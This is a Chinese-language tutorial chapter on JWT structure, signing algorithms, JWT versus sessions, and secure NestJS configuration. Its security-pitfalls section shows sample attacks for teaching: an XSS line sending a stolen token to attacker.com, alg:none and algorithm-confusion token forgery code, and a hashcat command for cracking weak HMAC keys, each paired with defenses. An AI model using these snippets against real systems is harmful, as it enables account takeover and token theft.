





# JWT 深度理论

## 本篇导读

### 核心目标

学完本篇后，你将能够：

- 拆解 JWT 的三段结构（Header、Payload、Signature），理解每段的编码方式和作用
- 掌握 HS256、RS256、ES256 三种签名算法的原理、差异与选型依据
- 从"有状态 vs 无状态"的视角全面对比 JWT 与 Session，在实际项目中做出合理选择
- 识别 JWT 最常见的安全误区（Payload 明文、alg:none 攻击、算法混淆攻击）并知道如何防御
- 在 NestJS 中使用 `@nestjs/jwt` 正确配置和使用 JWT

### 重点与难点

**重点**：

- JWT 是签名而不是加密——Payload 对任何人都是可读的
- RS256 的公私钥分发机制，以及它如何实现"签名者与验证者分离"
- `exp`、`iat`、`jti`、`iss`、`aud` 等注册声明的语义和正确使用
- 在 `verifyAsync` 时必须明确指定允许的算法

**难点**：

- alg:none 攻击和算法混淆（Algorithm Confusion）攻击的攻击链
- RS256 与 HS256 的密钥管理差异，以及为什么微服务架构下非对称算法更安全
- JWT 无法主动撤销的根本原因，以及这个限制引出的双令牌策略

## JWT 是什么？——先建立一个直觉

在解释 JWT 的结构之前，先理解它解决了什么问题。

HTTP 协议是无状态的——每一次请求对服务器来说都是全新的，服务器不知道发送请求的是谁。认证系统的核心任务，就是让服务器能够可靠地识别每个请求的发送者。

有两种主要的解决思路：

**思路 A（Session 方案）**：服务器颁发一张"取号条"，上面只有一个随机编号（Session ID）。用户每次请求带上这个编号，服务器据此在自己的数据库（Redis）里查出对应的用户信息。

**思路 B（JWT 方案）**：服务器颁发一张"数字身份证"，上面直接写着用户 ID、角色、有效期，并盖上服务器的"数字印章"（签名）。用户每次请求带上这张身份证，服务器直接读卡——只要印章是真的，信息就是可信的，不需要再查任何数据库。

JWT（JSON Web Token）就是这种"数字身份证"方案的标准实现。它的核心设计哲学是：**通过密码学签名来替代服务端状态存储**，实现认证逻辑的无状态化。

这个设计的优势和局限，都源于同一个特性：**服务器不记录任何 JWT 状态**。优势是水平扩展极其简单；局限是过期前无法主动撤销（后续章节会讲如何绕过这个限制）。

## JWT 的三段结构

一个真实的 JWT 看起来像这样：

```plaintext
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9
.
eyJzdWIiOiJ1c2VyLTEyMyIsImVtYWlsIjoiYWxpY2VAZXhhbXBsZS5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxMTYwOTYwMCwiZXhwIjoxNzExNjEwNTAwfQ
.
dBjftJeZ4CVP-mB92K27uhbUJU1p1r_wW1gFWFOEjXk...（签名）
```

三段以点（`.`）分隔，分别是 **Header**、**Payload**、**Signature**。

### Header（头部）

Header 是一个 JSON 对象，经过 Base64URL 编码后作为 JWT 的第一段：

```json
{
  "alg": "RS256",
  "typ": "JWT"
}
```

两个字段的含义：

- `alg`：签名算法（HS256、RS256、ES256 等）
- `typ`：令牌类型，固定为 `"JWT"`

对上面这个 JSON 做 Base64URL 编码，正好得到 `eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9`。你可以随时在浏览器控制台验证：

```typescript
atob(
  'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9'.replace(/-/g, '+').replace(/_/g, '/')
);
// → '{"alg":"RS256","typ":"JWT"}'
```

#### 什么是 Base64URL 编码？

Base64URL 是标准 Base64 的变体，做了三处调整以适配 URL 场景：

- 把 `+` 替换为 `-`
- 把 `/` 替换为 `_`
- 去掉尾部的 `=` 补位符

这样编码后的字符串可以安全地出现在 URL Query String 中，不会被 `%2B`、`%2F` 等转义破坏。

**Base64URL 不是加密**。这一点极其重要，后面讲常见误区时会详细说明。

### Payload（载荷）

Payload 是 JWT 的核心内容，包含一组"声明"（Claims）——关于令牌主体（通常是用户）和令牌本身的结构化信息。

一个典型的 Payload：

```json
{
  "iss": "https://auth.example.com",
  "sub": "user-123",
  "aud": "https://api.example.com",
  "iat": 1711609600,
  "exp": 1711610500,
  "jti": "01J8K2M4N6P8QR3ST5VW7XY9ZA",
  "email": "alice@example.com",
  "role": "user"
}
```

声明分为三类：

**注册声明（Registered Claims）**：JWT 标准（RFC 7519）预定义的字段，具有固定语义：

| 字段  | 全称            | 含义                                                  |
| ----- | --------------- | ----------------------------------------------------- |
| `iss` | Issuer          | 令牌颁发者，通常是认证服务的域名                      |
| `sub` | Subject         | 令牌的主体，通常是用户 ID（应在颁发者内唯一）         |
| `aud` | Audience        | 令牌的目标受众，通常是接受该令牌的 API 服务域名       |
| `exp` | Expiration Time | 过期时间（Unix 时间戳，秒级），超过此时间令牌不再有效 |
| `nbf` | Not Before      | 生效时间（Unix 时间戳，秒级），早于此时间令牌无效     |
| `iat` | Issued At       | 颁发时间（Unix 时间戳，秒级），记录令牌何时被签发     |
| `jti` | JWT ID          | 令牌的唯一标识符，用于防止重放攻击和实现令牌黑名单    |

**公共声明（Public Claims）**：可自定义的字段。为避免与其他系统命名冲突，正式场景中应使用命名空间 URI（如 `"https://yourapp.com/roles"`）或在 IANA JWT Claims 注册表中注册。

**私有声明（Private Claims）**：应用内部约定好的字段，如 `email`、`role`、`permissions` 等。这类字段在颁发者和消费者之间协商好即可，无需全局注册。

**Payload 同样只是 Base64URL 编码，任何人都能解码并读取内容。**

### Signature（签名）

签名是 JWT 中唯一具有密码学保护的部分，也是 JWT 安全性的核心。

签名的计算方式如下：

```plaintext
Signature = SigningAlgorithm(
  base64url(Header) + "." + base64url(Payload),
  key
)
```

以 RS256（RSA-SHA256）为例：

1. 拼接 `base64url(Header) + "." + base64url(Payload)` 得到一个字符串
2. 对这个字符串计算 SHA-256 哈希
3. 用 RSA 私钥对哈希值进行签名，得到签名

**验证时**，服务器用相同的算法（但使用公钥）重新计算，对比结果：



**签名的保护范围**：Header 和 Payload 的任何修改都会导致签名验证失败。攻击者无法在不破坏签名的情况下修改 Payload 中的字段（如把 `"role": "user"` 改成 `"role": "admin"`）。

**签名只防篡改，不防读取**。Payload 依然是明文可读的。这个特性决定了一个基本原则：**JWT Payload 中不能放任何需要保密的信息**。

## 签名算法详解

JWT 支持多种签名算法，它们在对称性、性能和适用场景上各有不同。

### HS256：对称签名

HS256（HMAC-SHA256）是最简单的算法，使用**同一个密钥**完成签名和验证：



**优点**：

- 实现极其简单
- 计算速度快（纯软件实现，无需非对称运算）
- 密钥管理简单（只有一个密钥）

**缺点**：

- 签名方和验证方必须共享同一个密钥
- 在分布式系统中，所有需要验证 JWT 的服务都必须持有这个密钥
- 一旦某个服务被攻破，整个密钥体系面临风险，需要重新轮换所有服务的密钥
- 无法实现"签名权"与"验证权"的分离

**密钥长度要求**：HMAC-SHA256 的密钥至少应为 256 位（32 字节）。推荐使用密码学安全的随机生成器生成至少 64 字节的密钥：

```typescript
import { randomBytes } from 'crypto';
// 一次性生成，存入环境变量
console.log(randomBytes(64).toString('base64'));
```

**适用场景**：单体应用、快速原型、所有服务在同一信任边界内（如同一 Kubernetes 集群内网）。

### RS256：非对称签名

RS256（RSA-SHA256）使用**密钥对**——私钥签名，公钥验证：



**优点**：

- 私钥只存在于颁发服务中，其他服务只需持有公钥
- 公钥可以安全地公开分发（通过 JWKS 端点，后续模块介绍），无需建立安全通道
- 即使某个 API 服务被攻破，攻击者拿到公钥也无法伪造 JWT（公钥只能验证，不能签名）
- 天然支持 JWKS（JSON Web Key Set）端点，是构建 OIDC 授权服务器的必选
- 密钥泄露风险隔离：只需保护好认证服务上的私钥

**缺点**：

- RSA 签名和验证的计算量远大于 HMAC（但在现代硬件上影响可忽略）
- 密钥管理更复杂（需要生成密钥对，分发公钥）
- 密钥文件更大（2048 位 RSA 私钥远大于 256 位 HMAC 密钥）

**适用场景**：微服务架构、OAuth2/OIDC 授权服务器、需要对外开放 JWT 验证的场景。**本教程从模块三开始使用 RS256**，为模块四构建 OIDC 授权服务器做铺垫。

### ES256：椭圆曲线签名

ES256（ECDSA-SHA256，使用 P-256 曲线）是 RS256 的现代替代方案：

- 同样是非对称算法（私钥签名，公钥验证）
- **密钥更短**：256 位 ECC 密钥提供约等同于 3072 位 RSA 密钥的安全强度
- **签名更小**：ES256 签名通常 71-73 字节，RS256（2048 位）签名是 256 字节
- **签名速度更快**（验证速度在不同平台上有所差异）

**缺点**：部分较老的库对 ECDSA 支持不完善；签名结果是不定长的（受曲线点坐标影响），在某些实现中需要额外处理。

### 算法选型建议

| 场景                                | 推荐算法       | 理由                                 |
| ----------------------------------- | -------------- | ------------------------------------ |
| 单体应用 / 快速原型                 | HS256          | 最简单，无需密钥对管理               |
| 微服务架构（服务间 JWT 验证）       | RS256 或 ES256 | 私钥只在认证服务，其他服务只持有公钥 |
| 构建 OAuth2 / OIDC 授权服务器       | RS256（主流）  | 广泛支持，JWKS 生态成熟              |
| 对 Token 大小敏感的 API（如移动端） | ES256          | 更小的签名减少网络传输               |
| 与第三方 OIDC Provider 对接         | RS256 或 ES256 | 取决于 Provider 支持的算法           |

**本教程选择 RS256**：从模块三开始贯穿后续章节，直接为模块四的 OIDC 授权服务器奠定基础。

## JWT vs Session：全面对比

两种方案解决的是同一个核心问题（识别 HTTP 请求的发送者），但实现机制截然不同。理解它们的本质差异，是做出正确技术选型的前提。

### 有状态 vs 无状态

这是两者最根本的区别：



Session 认证中，服务器在 Redis 中记录"谁正在登录"（有状态）；JWT 认证中，服务器不存储任何状态，身份信息全部嵌入 Token 本身。

### 各维度对比

**性能**：

- Session：每次请求需要一次 Redis 网络往返，典型延迟约 0.5-2ms
- JWT：签名验证在本地完成，典型延迟约 0.1ms（RS256 非对称运算）；但 JWT 体积更大（通常 300-600 字节对比 Session ID 的几十字节），HTTP 请求头会增大

**水平扩展**：

- Session：多个服务实例必须共享同一个 Redis，需要维护 Redis 高可用
- JWT：服务实例无需共享任何状态，只需持有公钥（RS256）或密钥（HS256）；无服务器（Lambda、Edge）场景下尤其友好

**即时撤销**：

- Session：服务器可以随时从 Redis 删除 Session，用户立即失去认证状态
- JWT：默认无法主动撤销，用户修改密码后旧 JWT 在过期前依然有效；需要额外的黑名单机制（见下一篇）

**跨域与分布式**：

- Session：Cookie 受同源策略限制，跨域场景需要额外配置（CORS、SameSite=None）
- JWT：可以通过 Authorization Header 传递，天然适合跨域 API

**存储位置**：

| 数据           | Session 方案           | JWT 方案                |
| -------------- | ---------------------- | ----------------------- |
| 用户身份数据   | 存在服务器 Redis       | 嵌入 JWT Payload        |
| 浏览器存储内容 | Session ID（几十字节） | JWT（几百字节）         |
| 存储方式       | HttpOnly Cookie        | HttpOnly Cookie 或 内存 |

### 如何在实际项目中选择？

**优先考虑 Session 的场景**：

- 需要精细的会话控制（即时封号、强制下线、踢出单设备）
- 权限变更需要立即生效（如实时升降级用户角色）
- 单体应用，没有跨服务 JWT 共享的需求
- 安全性要求极高，不能接受"密码修改后旧 Token 还能用 15 分钟"的风险窗口

**优先考虑 JWT 的场景**：

- 微服务架构，多个独立服务需要无缝验证用户身份
- 构建 OAuth2 / OIDC 授权服务器
- 移动端 API（Cookie 管理复杂，Authorization Header 更直接）
- 无服务器 / 边缘计算环境（不方便维护 Redis 连接）
- 需要对第三方开放 API 验证机制

**混合使用**：在实际系统中，两种方案并不互斥。一种常见的架构是：认证服务颁发 JWT，业务服务用 JWT 验证身份；同时保留 Session 用于存储复杂的偏好设置或多步骤操作的状态。

## 常见误区与安全漏洞

JWT 是一个"看起来简单，实则陷阱颇多"的技术。这里列举最常见的误区和安全问题，帮你避开这些坑。

### 误区一：JWT 是加密的，Payload 是安全的

**错误认知**：JWT 里有签名，内容是加密的，外人看不到。

**正确认知**：JWT 的 Header 和 Payload 只是 Base64URL 编码，**不是加密**。任何人拿到 JWT，立刻就能解码 Payload：

```typescript
// 任何人都能做到这一步——不需要任何密钥
const [headerB64, payloadB64] = jwt.split('.');
const payload = JSON.parse(
  Buffer.from(payloadB64, 'base64url').toString('utf-8')
);
console.log(payload);
// → { sub: "user-123", email: "alice@example.com", role: "admin", ... }
```

**正确做法**：

- 绝对不要在 JWT Payload 中放密码、密码哈希、信用卡号、身份证号等敏感信息
- Payload 只放最小必要的声明：userId（`sub`）、角色（`role`）、过期时间（`exp`）等

如果确实需要加密 JWT 内容，应使用 **JWE（JSON Web Encryption）**——这是 JWT 规范的加密变体，提供真正的内容加密。但绝大多数场景不需要这个层级的保护。

### 误区二：Access Token 可以放进 localStorage，这样不会受 CSRF 攻击

**部分正确，但忽视了 XSS 风险**：

localStorage 确实不会随 HTTP 请求自动发送，因此攻击者通过 CSRF 表单无法利用它。但 localStorage 可以被**同域任意 JavaScript** 访问，一旦页面存在 XSS 漏洞，攻击者注入的脚本可以直接读取并窃取 Token：

```javascript
// XSS 注入的恶意代码
const token = localStorage.getItem('accessToken');
new Image().src = 'https://attacker.com/steal?t=' + encodeURIComponent(token);
```

**Token 存储方案的权衡**：

| 存储方式             | 防 CSRF             | 防 XSS               | 推荐度                |
| -------------------- | ------------------- | -------------------- | --------------------- |
| HttpOnly Cookie      | ✅（配合 SameSite） | ✅（JS 不可读）      | ✅ Refresh Token 首选 |
| 内存（JS 变量/状态） | ✅                  | ✅（页面关闭即清除） | ✅ Access Token 推荐  |
| localStorage         | ✅                  | ❌                   | ⚠️ 不推荐             |
| sessionStorage       | ✅                  | ❌                   | ⚠️ 不推荐             |

**最佳实践**：

- **Refresh Token**：必须存在 HttpOnly Cookie 中，JavaScript 无法读取
- **Access Token**：存在 JS 内存中（React State、模块级变量），页面刷新后通过 Refresh Token 静默续期

### 误区三：JWT 无法被撤销，只能等它过期

**部分正确，但有解法**：

确实，JWT 默认是无状态的，没有"中心化的令牌注册表"可以查询。但这不是无法解决的问题：

**解法一：短过期时间 + Refresh Token**

Access Token 设置很短的过期时间（5-15 分钟）。即使泄露，攻击者的利用窗口极短。

**解法二：Redis 黑名单（下一篇详解）**

在 Redis 中记录被吊销令牌的 `jti`（JWT ID）。验证时多一步黑名单查询。这引入了一定的有状态性，但只需存储"需要提前撤销"的令牌，存储量远小于 Session 方案。

**解法三：Refresh Token 吊销**

即使无法立即撤销 Access Token，也可以通过数据库标记 Refresh Token 为失效，阻止其续期 Access Token。考虑到 Access Token 很短命，实际影响窗口可以控制在 15 分钟以内。

### 安全漏洞一：alg:none 攻击

**攻击原理**：

JWT 规范定义了一个特殊的算法值 `"none"`，表示该 Token 不需要签名验证。部分早期 JWT 库的实现没有禁用这个值，导致攻击者可以构造一个自称"无需验证"的 Token：

```typescript
// 攻击者手动构造一个 alg:none 的 JWT
const header = Buffer.from(
  JSON.stringify({ alg: 'none', typ: 'JWT' })
).toString('base64url');
const payload = Buffer.from(
  JSON.stringify({ sub: 'admin', role: 'admin', exp: 9999999999 })
).toString('base64url');
const forgedToken = `${header}.${payload}.`; // 签名部分留空
```

如果验证代码没有明确禁止 `alg:none`，这个伪造 Token 会通过验证，攻击者成功伪装成 admin。

**易受攻击的代码**：

```typescript
// 危险！没有明确指定允许的算法
const payload = jwt.verify(token, publicKey);
```

**安全代码**：

```typescript
// 安全：明确指定只接受 RS256
const payload = jwt.verify(token, publicKey, {
  algorithms: ['RS256'], // 拒绝 none、HS256 等一切非白名单算法
});
```

### 安全漏洞二：算法混淆攻击（Algorithm Confusion）

**攻击原理**：

这个攻击利用了对称算法（HS256）和非对称算法（RS256）之间的混淆。

假设服务器使用 RS256 验证 JWT，且公钥通过 JWKS 端点公开（正常行为）。攻击者的步骤：

1. 从 JWKS 端点获取服务器的公钥（合法行为，公钥是公开的）
2. 将要伪造的 JWT 的 Header 中的 `alg` 从 `RS256` 改为 `HS256`
3. 用**公钥**作为 HMAC 密钥，为伪造的 Payload 签名
4. 发送这个伪造的 Token

```typescript
// 攻击者的代码
import * as jwt from 'jsonwebtoken';

const publicKeyPEM = await fetchPublicKey(
  'https://api.example.com/.well-known/jwks.json'
);

const forgedToken = jwt.sign(
  { sub: 'attacker', role: 'admin', exp: Math.floor(Date.now() / 1000) + 3600 },
  publicKeyPEM, // 用公钥作为 HMAC 密钥
  { algorithm: 'HS256' }
);
```

如果验证端的代码没有锁定算法，可能会这样处理：

```typescript
// 危险！从 Token Header 动态读取算法
const decoded = jwt.decode(token, { complete: true });
const alg = decoded.header.alg; // 被攻击者设置为 HS256
const payload = jwt.verify(token, publicKey, { algorithms: [alg] }); // 用公钥验证 HS256 签名
// 攻击者用公钥签名，服务器用公钥验证 → 匹配成功！
```

**防御措施**：

```typescript
// 安全：绝对不信任 Token 中声明的算法，永远在代码中硬编码
const payload = jwt.verify(token, publicKey, {
  algorithms: ['RS256'], // 写死，不读 Header 中的 alg
});
```

### 安全漏洞三：弱签名密钥（HS256 场景）

使用 HS256 时，如果密钥是弱字符串（`secret`、`password`、`jwt_secret`、`12345678` 等），攻击者可以通过字典攻击或暴力破解得到密钥，然后伪造任意 JWT：

```bash
# 攻击者使用 hashcat 爆破弱 HMAC 密钥
hashcat -a 0 -m 16500 stolen.jwt common-passwords.txt
```

**防御措施**：

```typescript
// 生成安全的随机密钥（在终端一次性执行）
import { randomBytes } from 'node:crypto';
console.log(randomBytes(64).toString('base64'));
// 输出类似：K8mN2pXv7T3jR6yU1qW9sL0eA4cB5fH... （高熵随机字符串）
// 将输出结果存入环境变量 JWT_SECRET，不要用人类可读的字符串
```

密钥长度规则：HS256 密钥至少 256 位（32 字节），推荐 512 位（64 字节）以上。

## 在 NestJS 中生成和验证 JWT

理论足够了，现在来看实际代码。

### 生成 RSA 密钥对

在项目根目录执行：

```bash
# 生成 2048 位 RSA 私钥
openssl genrsa -out private.pem 2048

# 从私钥提取对应的公钥
openssl rsa -in private.pem -pubout -out public.pem

# 将私钥内容 base64 编码（方便存入环境变量，避免换行符问题）
base64 -w 0 private.pem > private.b64

# 将公钥内容 base64 编码
base64 -w 0 public.pem > public.b64
```

将编码后的内容存入 `.env`（实际生产环境推荐使用 Vault 或 K8s Secret 管理密钥）：

```plaintext
JWT_PRIVATE_KEY=LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQ==...（base64 编码的私钥）
JWT_PUBLIC_KEY=LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0=...（base64 编码的公钥）
JWT_ISSUER=https://auth.example.com
JWT_ACCESS_TOKEN_EXPIRES_IN=15m
```

### 安装依赖

```plaintext
pnpm add @nestjs/jwt
pnpm add -D @types/jsonwebtoken
```

### 配置 JwtModule

```typescript
// src/jwt/jwt.module.ts
import { Module, Global } from '@nestjs/common';
import { JwtModule } from '@nestjs/jwt';
import { ConfigService } from '@nestjs/config';

@Global()
@Module({
  imports: [
    JwtModule.registerAsync({
      inject: [ConfigService],
      useFactory: (config: ConfigService) => {
        // 从环境变量读取 base64 编码的密钥，解码还原 PEM 格式
        const privateKey = Buffer.from(
          config.getOrThrow<string>('JWT_PRIVATE_KEY'),
          'base64'
        ).toString('utf-8');

        const publicKey = Buffer.from(
          config.getOrThrow<string>('JWT_PUBLIC_KEY'),
          'base64'
        ).toString('utf-8');

        return {
          privateKey,
          publicKey,
          signOptions: {
            algorithm: 'RS256',
            issuer: config.getOrThrow<string>('JWT_ISSUER'),
            expiresIn: config.get<string>('JWT_ACCESS_TOKEN_EXPIRES_IN', '15m'),
          },
          verifyOptions: {
            algorithms: ['RS256'], // 明确指定，防止 alg:none 和算法混淆攻击
            issuer: config.getOrThrow<string>('JWT_ISSUER'), // 验证 iss 声明
          },
        };
      },
    }),
  ],
  exports: [JwtModule],
})
export class AppJwtModule {}
```

在 `AppModule` 中导入：

```typescript
// src/app.module.ts
import { Module } from '@nestjs/common';
import { ConfigModule } from '@nestjs/config';
import { AppJwtModule } from './jwt/jwt.module';

@Module({
  imports: [
    ConfigModule.forRoot({ isGlobal: true }),
    AppJwtModule,
    // ... 其他模块
  ],
})
export class AppModule {}
```

### 定义 Token Payload 类型

```typescript
// src/jwt/jwt.types.ts

/**
 * Access Token 的 Payload 结构
 * 只存放最必要的字段，不放敏感信息
 */
export interface AccessTokenPayload {
  /** 用户 ID（JWT 标准 Subject 声明） */
  sub: string;
  /** 用户邮箱（用于日志和审计，不是敏感业务数据） */
  email: string;
  /** 用户角色 */
  role: string;
  /** JWT 唯一 ID，用于黑名单机制 */
  jti: string;
  /** 颁发时间（自动由 JwtService 填充） */
  iat?: number;
  /** 过期时间（自动由 JwtService 填充） */
  exp?: number;
  /** 颁发者（自动由 signOptions 填充） */
  iss?: string;
}
```

### 生成 Access Token

```typescript
// src/auth/token.service.ts
import { Injectable } from '@nestjs/common';
import { JwtService } from '@nestjs/jwt';
import { randomUUID } from 'node:crypto';
import { AccessTokenPayload } from '../jwt/jwt.types';

@Injectable()
export class TokenService {
  constructor(private readonly jwtService: JwtService) {}

  /**
   * 生成 Access Token
   * 每次生成一个新的 jti（UUID），用于支持黑名单机制
   */
  async generateAccessToken(
    userId: string,
    email: string,
    role: string
  ): Promise<string> {
    const payload: Omit<AccessTokenPayload, 'iat' | 'exp' | 'iss'> = {
      sub: userId,
      email,
      role,
      jti: randomUUID(),
    };

    return this.jwtService.signAsync(payload);
    // signOptions 中已配置 algorithm, issuer, expiresIn
  }

  /**
   * 验证并解码 Access Token
   * 抛出异常：TokenExpiredError（过期）、JsonWebTokenError（无效签名等）
   */
  async verifyAccessToken(token: string): Promise<AccessTokenPayload> {
    return this.jwtService.verifyAsync<AccessTokenPayload>(token);
    // verifyOptions 中已配置 algorithms 和 issuer 校验
  }

  /**
   * 仅解码不验证（用于调试或从过期 Token 中提取 jti）
   * 注意：返回值不可信，不能用于安全决策
   */
  decodeWithoutVerify(token: string): AccessTokenPayload | null {
    try {
      return this.jwtService.decode<AccessTokenPayload>(token);
    } catch {
      return null;
    }
  }
}
```

### JWT 验证时序



## 常见问题与解决方案

### 问题一：Token 过期了，但前端没有提示用户

**原因**：前端没有统一处理 401 响应，或处理逻辑有漏洞（只处理部分接口的 401）。

**解决方案**：在前端的请求库（如 axios）中添加 response interceptor，统一拦截 401 响应，自动触发 Token 刷新流程：

```typescript
// 前端 axios 拦截器示意
axiosInstance.interceptors.response.use(
  (response) => response,
  async (error) => {
    if (error.response?.status === 401 && !error.config._isRetry) {
      error.config._isRetry = true;
      await refreshAccessToken(); // 调用刷新接口
      return axiosInstance(error.config); // 重试原请求
    }
    return Promise.reject(error);
  }
);
```

### 问题二：时钟偏差导致 Token 在签发后立刻"过期"

**原因**：签发服务器和验证服务器的系统时钟不同步。如果验证服务器的时间比签发服务器早，可能出现 `iat > now` 的情况（Token 还没生效）。

**解决方案**：

1. 首选方案：通过 NTP 同步所有服务器时钟
2. 兜底方案：在 `verifyOptions` 中设置 `clockTolerance`（允许的时钟偏差秒数）：

```typescript
verifyOptions: {
  algorithms: ['RS256'],
  clockTolerance: 10, // 允许最多 10 秒的时钟偏差
},
```

### 问题三：JWT 过大，影响每次请求的 Header 体积

**原因**：Payload 中放了过多字段（如完整的用户详情、权限列表等）。

**解决方案**：

- Payload 遵循"最少字段"原则：只放 `sub`（用户 ID）、`role`、`jti` 等少数必要字段
- 权限的细粒度检查在需要时查询数据库，而不是全部 inline 到 JWT
- 考虑使用 ES256 代替 RS256（更短的签名，节省约 180 字节）

### 问题四：如何安全轮换 RS256 密钥对？

**场景**：私钥可能泄露，或安全策略要求定期轮换密钥。

**步骤**：

1. 生成新的密钥对，赋予新的 `kid`（Key ID）
2. 更新 JWKS 端点，**同时暴露新旧两个公钥**（通过 `kid` 区分）
3. 签发新 JWT 时使用新私钥，并在 Header 中携带新 `kid`
4. 验证时根据 JWT Header 的 `kid` 选择对应公钥（新旧都能验证）
5. 等待所有旧私钥签发的 JWT 自然过期（通常 15 分钟）
6. 从 JWKS 端点移除旧公钥

这个过程对用户完全无感知，不会导致任何登录失效。

## 本篇小结

本篇系统地讲解了 JWT 的理论基础：

**结构**：JWT 由三段 Base64URL 编码的 JSON 组成。Header 声明签名算法，Payload 携带声明数据，Signature 通过密码学运算防止篡改。三段都不是加密，只是编码。

**算法**：HS256 使用共享密钥，适合单体应用；RS256 和 ES256 使用密钥对（私钥签名，公钥验证），适合微服务和 OIDC 场景。本教程选择 RS256 作为后续实现的基础。

**与 Session 对比**：JWT 无状态，水平扩展简单，但默认无法主动撤销；Session 有状态，即时撤销方便，但需要维护 Redis。选型依据场景而定，两者并不互斥。

**安全关键点**：

- JWT 不是加密，Payload 可以被任何人解码，不要放敏感信息
- 验证时必须硬编码允许的算法（防止 alg:none 攻击和算法混淆攻击）
- HS256 密钥必须是密码学安全的随机字节，不能用弱字符串
- Refresh Token 必须存在 HttpOnly Cookie 中

